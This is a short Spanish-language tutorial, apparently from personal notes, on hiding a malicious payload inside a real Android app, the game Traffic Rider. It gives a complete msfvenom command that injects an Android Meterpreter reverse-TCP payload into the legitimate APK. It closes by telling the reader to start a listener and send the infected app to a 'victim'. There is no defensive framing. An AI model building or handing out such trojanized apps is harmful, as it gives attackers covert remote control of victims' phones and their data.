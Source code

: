 Para ocultar una apk maliciosa dentro de una aplicacion real, una aplicacion que se use en su día a día. Esto lo podemos lograr descargando en primer instancia una apk cualquiera en este caso vamos a descargar una apk de el juego *Traffic Rider* peor primero vamos a comprobar que esta no tenga ningún tipo de virus con *Virus Total*. 

![[Pasted image 20240114153909.png]]

Nuestra APK instalada en combo apk no posee ningún virus por lo que nosotros vamos a proceder a infectarlo. Para eso vamos a usar el mismo parametro de siempre con msfvenom pero le agregaremos uno nuevo.

```bash 
msfvenom -x 'Traffic Rider_1.98_apkcombo.com.apk' -p android/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -o TrafficRider.apk
```

Y listo ya hablemos creado todo solo quedara ponernos en escucha y enviárselo a nuestra victima.

